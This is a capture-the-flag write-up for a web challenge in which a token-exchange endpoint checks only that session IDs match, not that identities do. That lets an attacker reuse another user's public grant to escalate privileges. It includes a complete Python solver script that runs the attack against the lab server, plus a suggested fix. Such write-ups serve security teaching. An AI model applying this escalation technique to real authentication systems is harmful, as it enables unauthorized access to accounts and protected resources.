




# S04 - Vibhishana: The Oath of Refuge

**Category:** Web | **Flag:** `PINAKA{vibhishana_sharanagati_session_bound_identity_unbound}`
Target: `http://130.210.48.10:9009`

## The bug

The gateway has a public refuge grant for Sugriva. The elevation step checks that a provisional ticket and a grant have the same session ID. It never checks that they belong to the same *person*. And when you swear in as a newcomer, you get to choose your own session ID. So I take Sugriva's session ID, swear in as Vibhishana with it, and then elevate using Sugriva's grant.

## Tokens

Tokens are base64url canonical JSON plus an HMAC. Anyone can read them, but nobody can edit them. The public grant names Sugriva and contains a session ID.

- `/oath/swear` lets Vibhishana ask for that same session ID, and returns a properly signed provisional ticket.
- `/refuge/elevate` checks both signatures, the provisional tier, the grant's audience, and `ticket.sid == grant.sid`. It then mints a trusted ticket for `ticket.sub`, without ever checking `ticket.sub == grant.sub`.

Note that no signature is forged here. Every token I send was issued by the gateway or the Council itself.

## Exploit

Fetch the roster, decode the current grant (with the provided `pinaka_oath.py`) to get its `sid`, swear in as Vibhishana with that `sid`, elevate, enter the sanctum. The server answered `accepted`:

```text
PINAKA{vibhishana_sharanagati_session_bound_identity_unbound}
```







## Solver

```python
#!/usr/bin/env python3
"""Exploit the S04 session-bound but identity-unbound refuge token exchange."""
from __future__ import annotations
import json, os, urllib.request
from pathlib import Path
import pinaka_oath
ROOT=Path(__file__).resolve().parent
BASE=os.environ.get('PINAKA_S04_URL','http://130.210.48.10:9009').rstrip('/')

def request(path,body=None):
    data=None if body is None else json.dumps(body,separators=(',',':')).encode()
    req=urllib.request.Request(BASE+path,data=data,headers={'Content-Type':'application/json'} if data else {},method='GET' if data is None else 'POST')
    with urllib.request.urlopen(req,timeout=20) as r: return json.loads(r.read())

def main():
    roster=request('/gateway/roster')
    ally=next((x for x in roster['grants_on_record'] if x['ally']=='sugriva'),None)
    if not ally: raise RuntimeError('public roster did not contain Sugriva grant')
    grant=ally['grant']; grant_payload=pinaka_oath.decode(grant); sid=grant_payload['sid']
    print('Public grant:',grant_payload)
    sworn=request('/oath/swear',{'name':'vibhishana','sid':sid})
    ticket=sworn['ticket']; ticket_payload=pinaka_oath.decode(ticket)
    if ticket_payload.get('tier')!='provisional' or ticket_payload.get('sub')!='vibhishana' or ticket_payload.get('sid')!=sid:
        raise RuntimeError('unexpected provisional oath response')
    print('Swear:',{k:v for k,v in sworn.items() if k!='ticket'},'ticket subject:',ticket_payload['sub'])
    elevated=request('/refuge/elevate',{'ticket':ticket,'grant':grant})
    trusted=elevated['ticket']; trusted_payload=pinaka_oath.decode(trusted)
    if trusted_payload.get('tier')!='trusted' or trusted_payload.get('sub')!='vibhishana':
        raise RuntimeError('elevation did not grant trusted Vibhishana ticket')
    print('Elevate:',{k:v for k,v in elevated.items() if k!='ticket'},'trusted subject:',trusted_payload['sub'])
    result=request('/refuge/sanctum',{'ticket':trusted})
    print('Sanctum:',json.dumps(result,indent=2))
    (ROOT/'transcripts').mkdir(exist_ok=True)
    (ROOT/'transcripts'/'04_validator.txt').write_text(json.dumps(result,indent=2)+'\n')
    (ROOT/'transcripts'/'03_exchange.json').write_text(json.dumps({'grant_payload':grant_payload,'swear':sworn,'elevate':elevated},indent=2)+'\n')
    if result.get('flag'): print('Flag:',result['flag'])

if __name__=='__main__': main()
```

## Fix

Check `ticket.sub == grant.sub` at elevation. Also, don't let clients pick their own session IDs, or at least don't let them pick one that already belongs to someone else.
